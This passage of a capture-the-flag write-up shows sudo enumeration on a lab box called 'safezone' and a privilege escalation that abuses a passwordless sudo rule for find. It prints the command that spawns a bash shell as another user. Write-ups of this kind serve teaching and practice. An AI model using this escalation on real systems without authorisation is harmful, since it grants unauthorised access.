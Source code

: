 ![Pasted image 20250519203804.png](../../IMAGES/Pasted%20image%2020250519203804.png)

With our stable shell, we can now look around the box, for example, if we use `sudo -l`, we get this:

```
www-data@safezone:/$ sudo -l
Matching Defaults entries for www-data on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User www-data may run the following commands on safezone:
    (files) NOPASSWD: /usr/bin/find
```

On `GTFOBINS`, we can find this info on how to exploit this:

![Pasted image 20250519203911.png](../../IMAGES/Pasted%20image%2020250519203911.png)

Let's do:

```
sudo -u files /usr/bin/find . -exec /bin/bash \; -quit
```

![Pasted image 20250519204031.png](../../IMAGES/Pasted%20image%2020250519204031.png)

There we go, let's check our privileges again:

```
files@safezone:/$ sudo -l
Matching Defaults entries for files on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User files may run the following commands on safezone:
    (yash) NOPASSWD: /usr/bin/id
```
